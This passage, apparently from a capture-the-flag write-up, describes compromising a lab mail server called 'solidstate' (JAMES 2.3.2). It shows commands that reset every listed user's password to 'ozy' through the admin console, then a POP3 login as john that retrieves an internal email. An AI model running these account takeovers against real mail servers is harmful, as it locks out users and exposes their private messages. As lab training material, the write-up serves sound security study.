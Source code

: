 We have the ability to change the password of all the users. Let's change all their account passwords to `ozy`. We can then login to their POP3 accounts and compromise the confidentiality of their emails.

```s
setpassword james ozy
Password for james reset
setpassword thomas ozy
Password for thomas reset
setpassword john ozy
Password for john reset
setpassword mindy ozy
Password for mindy reset
setpassword mailadmin ozy
Password for mailadmin rese
```

Now we can iteratively login to each account and view their contents.

The first user to have anything interesting is `john`

```s
user john
+OK
pass ozy
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindys access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James

```
